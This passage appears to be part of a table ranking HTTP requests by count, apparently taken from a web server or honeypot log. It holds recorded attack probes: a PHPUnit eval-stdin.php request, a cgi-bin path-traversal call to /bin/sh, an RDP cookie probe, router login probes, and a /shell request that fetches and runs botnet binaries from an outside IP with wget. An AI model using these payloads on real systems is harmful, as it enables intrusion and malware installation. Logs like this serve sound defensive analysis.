 |   6 |                     9 | GET /vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                    |
|   7 |                     9 | POST /cgi-bin/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/bin/sh HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                     |
|   8 |                     9 | GET /users/login HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                           |
|   9 |                     8 | \x03\x00\x00/*\xE0\x00\x00\x00\x00\x00Cookie: mstshash=Administr                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                    |
|  10 |                     8 | GET /shell?cd+/tmp;rm+holdarm+hold.arm7;wget+http:/\x5C/193.143.1.66/bins/hold.arm7;chmod+777+hold.arm7;./hold.arm7+hold.jaws;wget+http:/\x5C/193.143.1.66/bins/hold.arm;chmod+777+hold.arm;./hold.arm+hold.jaws HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                           |
|  11 |                     7 | GET /users/users/users/login HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                               |
|  12 |                     7 | POST /boaform/admin/formLogin HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                              |